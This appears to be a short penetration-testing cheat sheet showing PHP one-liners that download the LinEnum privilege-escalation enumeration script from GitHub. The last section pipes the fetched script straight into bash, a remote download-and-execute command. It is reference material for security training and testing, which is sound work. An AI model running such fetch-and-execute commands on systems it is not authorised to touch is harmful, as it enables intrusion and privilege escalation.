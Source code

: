 # PHP Download

**PHP** can be used to run one-liners from an operating system command line using the option `-r`.

## file\_get\_contents()

```shell
clue@machine[/]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

`file_get_contents()`: Downloads the file from the remote location. `file_put_contents()`: Saves the contenst into a local file.

## fopen()

```shell
clue@machine[/]$ php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

## Pipe to Bash

Send the downloaded content to a pipe instead.

```shell
clue@machine[/]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
